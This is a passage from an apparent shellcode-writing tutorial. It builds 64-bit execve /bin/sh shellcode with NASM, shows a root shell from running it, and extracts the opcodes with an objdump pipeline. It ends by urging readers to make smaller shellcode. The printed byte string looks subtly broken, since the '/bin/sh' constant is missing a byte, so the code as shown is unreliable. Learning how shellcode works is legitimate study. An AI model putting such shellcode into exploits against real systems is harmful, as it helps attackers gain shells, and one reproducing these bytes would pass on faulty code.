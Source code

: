 **Note:** Here, we didn't directly pushed the string on the stack because pushing a 64-bit immediate value is not possible. So, we used RAX as an intermediate register.
{: .notice--info}

Now, you can try it. Note that the compilation arguments have changed.

```bash
$ nasm -f elf64 execve64.asm
$ ld -m elf_x86_64 execve64.o -o execve64
$ ./execve64 
# id
uid=0(root) gid=0(root) groups=0
```

Easy, right ?

```bash
$ objdump -d ./execve64|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'

"\x48\x31\xc0\x50\x48\xb8\x2f\x2f\x62\x69\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\xb0\x3b\x0f\x05"
```

Your turn now, make them smaller, make them smarter !